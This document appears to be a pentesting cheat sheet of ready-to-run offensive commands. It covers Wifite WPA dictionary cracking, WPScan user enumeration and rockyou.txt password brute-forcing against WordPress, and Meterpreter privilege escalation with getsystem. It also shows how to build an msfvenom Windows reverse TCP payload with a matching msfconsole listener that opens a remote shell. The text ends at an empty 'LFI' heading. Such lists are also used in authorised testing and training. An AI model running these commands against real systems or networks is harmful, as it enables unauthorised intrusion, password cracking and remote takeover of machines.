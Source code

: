 ## Wifite

```sh
sudo wifite --wpa --dict file.txt --kill
```

## wpscan

```sh
wpscan --url $IP/wordpress -e at
wpscan --url $IP/wordpress -e ap
wpscan --url $IP/wordpress -e u
wpscan --url $IP/wordpress --enumerate
wpscan --url $IP/wordpress -U users.txt -P /usr/share/wordlists/rockyou.txt
```

## Meterpreter Windows PrivEsc

### GetSystem

```sh
use priv
getsystem
getuid
```

### Meterpreter shell

```sh
^Z
search shell_to_meterpreter
use 0
options
set SESSION 1
run
sessions
sessions -i 2
```

### Generate tcp reverse shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="1234" -f exe -o rev.exe
```

### MSFConsol one line listener

```bash
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT '1234'; exploit"
```

## LFI
